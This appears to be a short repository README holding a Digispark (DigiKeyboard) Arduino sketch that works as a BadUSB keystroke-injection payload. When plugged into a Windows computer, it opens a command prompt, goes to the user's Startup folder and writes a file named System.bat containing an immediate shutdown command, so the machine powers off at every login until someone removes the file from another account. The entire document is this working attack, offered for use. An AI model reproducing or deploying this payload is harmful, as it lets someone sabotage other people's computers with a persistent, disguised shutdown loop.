 Creates a program that shuts down the computer, then places it into the startup folder.
You can remove it by signing in with another account and deleting it.

(Runs only once)

  #include "DigiKeyboard.h"
  void setup() {
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.delay(500);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(400);
    DigiKeyboard.print("cmd");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(400);
    DigiKeyboard.print("cd / & cd Users & cd %AppData%/Microsoft/Windows/Start Menu/Programs/Startup");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(75);
    DigiKeyboard.print("echo shutdown -s -t 00 > System.bat");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(75);
    DigiKeyboard.print("exit");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
  }
  void loop() {
    //nothing
  }